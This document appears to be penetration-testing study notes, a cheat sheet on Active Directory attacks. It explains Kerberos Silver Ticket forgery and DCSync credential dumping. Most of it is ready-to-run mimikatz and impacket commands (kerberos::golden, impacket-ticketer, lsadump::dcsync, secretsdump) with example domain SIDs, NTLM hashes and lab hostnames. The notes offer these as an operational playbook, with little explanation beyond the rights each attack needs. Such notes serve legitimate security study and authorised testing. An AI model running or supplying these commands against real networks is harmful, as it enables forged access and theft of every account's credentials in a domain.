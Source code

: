 #### Silver Tickets

need three things:
- SPN password hash
- Domain SID - can get by running `Get-ADdomain`
- Target SPN - `Get-ADUser -Filter {SamAccountName -eq "<spn_username>"} -Properties ServicePrincipalNames`

if we have that we can create a ticket with high privilege because the service don't validate our privilege with the DC

tools:
- mimikatz

```
kerberos::golden /sid:<domain SID> /domain:<domain> /ptt /target:<target> /service:<protocol> /rc4:<NTLM hash> /user:<user>
```

example:
```
kerberos::golden /sid:S-1-5-21-1987370270-658905905-1781884369 /domain:corp.com /ptt /target:web04.corp.com /service:http /rc4:4d28cf5252d39971419580a51484ca09 /user:jeffadmin
```

- impacket
```
impacket-ticketer -nthash E3A0168BC21CFB88B95C954A5B18F57C -domain-sid S-1-5-21-1969309164-1513403977-1686805993 -domain nagoya-industries.com -spn MSSQL/nagoya.nagoya-industries.com -user-id 500 Administrator
```

export the ticket
```
export KRB5CCNAME=$PWD/Administrator.ccache
```
#### DCSYNC

To launch such a replication, a user needs to have the _Replicating Directory Changes_, _Replicating Directory Changes All_, and _Replicating Directory Changes in Filtered Set_ rights. By default, members of the _Domain Admins_, _Enterprise Admins_, and _Administrators_ groups have these rights assigned.

If we obtain access to a user account in one of these groups or with these rights assigned, we can impersonate a domain controller. This allows us to request any user credentials from the domain.

we can get the hash of users of all the domain

tools:
- mimikatz
```
lsadump::dcsync /user:<domain/user>
```

- impacket-secretsdump
```
secretsdump.py -just-dc <domain/login_user:login_pass>@<ip> -outputfile dcsync_hashes
```
